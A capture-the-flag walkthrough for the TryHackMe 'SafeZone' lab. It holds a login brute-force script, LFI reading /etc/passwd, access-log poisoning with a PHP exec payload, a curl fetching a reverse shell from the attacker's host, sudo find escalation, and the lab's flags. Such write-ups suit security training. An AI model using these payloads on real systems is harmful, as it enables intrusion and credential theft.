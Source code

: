 # SafeZone

## nmap

```sql
─$ nmap -sC -sV -oN nmap 10.10.7.104
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 12:20 IST
Nmap scan report for 10.10.7.104
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:6a:cd:1b:0c:69:a1:3b:6c:52:f1:22:93:e0:ad:16 (RSA)
|   256 84:f4:df:87:3a:ed:f2:d6:3f:50:39:60:13:40:1f:4c (ECDSA)
|_  256 9c:1e:af:c8:8f:03:4f:8f:40:d5:48:04:6b:43:f5:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Whoami?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.73 seconds
```

## web

![[Pasted image 20210524124731.png]]

and we have a register page and then login and also a note.txt 

![[Pasted image 20210524130307.png]]

hint for possible lfi

after register and login 
![[Pasted image 20210524130419.png]]

details source code

![[Pasted image 20210524130604.png]]


Reading the pass.txt using 

http://10.10.7.104/~files/pass.txt

![[Pasted image 20210524142705.png]]

Now the password is admin__admin
bruteforcing the missing 2 integers 

```python
import requests 
import re
import time
for i in range(10):
        for j in range(10):
                try_pass = "admin"+str(i)+str(j)+"admin"
                url = "http://10.10.129.218/index.php"
                data = {"username":'Admin', "password":try_pass, "submit":'submit'} 
                r = requests.post(url = url, data=data)
                print("trying combination = ", try_pass)
                err = re.findall("Please enter valid login details.", r.text)
                timeout = re.findall("To many failed login attempts.", r.text)
                #print(timeout)
                #print(err)
                if (err == [] and timeout == []):
                        print("pass is "+try_pass)
                        quit()
                elif(timeout !=[]):
                        print("sleeping for 60 sec")
                        time.sleep(60)
```



after running we got the pass: `admin44admin`

logging in 

from above there is hint that try to use `page` param in get

and http://10.10.129.218/detail.php?page=/etc/passwd 

looking in the page source we have confirmed lfi 

![[Pasted image 20210525132220.png]]

LFI to RCE

as we can read the access log
 view-source:http://10.10.129.218/detail.php?page=/var/log/apache2/access.log

`curl -A '<?php echo exec($_GET[cmd]) ; ?>' http://10.10.129.218/`

RCE confirmed: view-source:http://10.10.129.218/detail.php?page=/var/log/apache2/access.log&cmd=id

10.17.4.208 - - [25/May/2021:13:38:37 +0530] "GET / HTTP/1.1" 200 755 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)"
![[Pasted image 20210525134036.png]]

Now we can uplooad the php rev shell and then call it via the lfi

upload the shell
view-source:http://10.10.249.31/detail.php?page=/var/log/apache2/access.log&cmd=curl%20http://10.17.4.208/php-reverse-shell.php%20-o%20/tmp/del.php

call it http://10.10.249.31/detail.php?page=/tmp/del.php

listen on port

got shell as www-data
![[Pasted image 20210525141820.png]]

## user

running sudo -l

![[Pasted image 20210525142121.png]]

from gtfobins
`find . -exec /bin/sh \; -quit`

after fuzzing and googling we get user as files

```
sudo -u files find . -exec /bin/sh -p \; -quit
```

![[Pasted image 20210525144058.png]]

`ls -la`

![[Pasted image 20210525144358.png]]

hash : `$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.`

its a sha512 hash

files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
![[Pasted image 20210525210007.png]]

`files:magic`

again `sudo -l`

![[Pasted image 20210525144152.png]]

`sudo -uyash /usr/bin/id`

![[Pasted image 20210525214146.png]]

running `netstat -ant`
![[Pasted image 20210525214255.png]]

forwarding the port 8000 to localhost 
`ssh -L 8000:127.0.0.1:8000 files@10.10.47.62`
![[Pasted image 20210525215630.png]]

![[Pasted image 20210525215709.png]]



/login.html

![[Pasted image 20210525220252.png]]

and tryting to login with `admin:admin44admin` we cant get in. 

so upon looking the source code
 we see the values are hardcoded as `user:pass`
 
 ![[Pasted image 20210525220448.png]]
 
 and randomly trying to get something from the message section, there is a possible rce..
 
 ![[Pasted image 20210525220634.png]]
 
 and also we can ping our box.
 
 ![[Pasted image 20210525220740.png]]
 
 ![[Pasted image 20210525220751.png]]
 
 
 
 tranfer the shell using ssh and make it executable
 
 ![[Pasted image 20210525222137.png]]
 
 and exectue via the web
 ![[Pasted image 20210525222206.png]]
 and we got shell
 ![[Pasted image 20210525222226.png]]
 ![[Pasted image 20210525222340.png]]
 
 user flag === THM{c296539f3286a899d8b3f6632fd62274} 
 ![[Pasted image 20210525222437.png]]


## Root
 
 `sudo -l`
 ![[Pasted image 20210525222603.png]]
 
 on executing it seems like a copying function
 
![[Pasted image 20210525222940.png]]

 and it is.. 
 
 now we can read the root flag
 
 ![[Pasted image 20210525223137.png]]
 
root flag === THM{63a9f0ea7bb98050796b649e85481845}

 
 
 
 
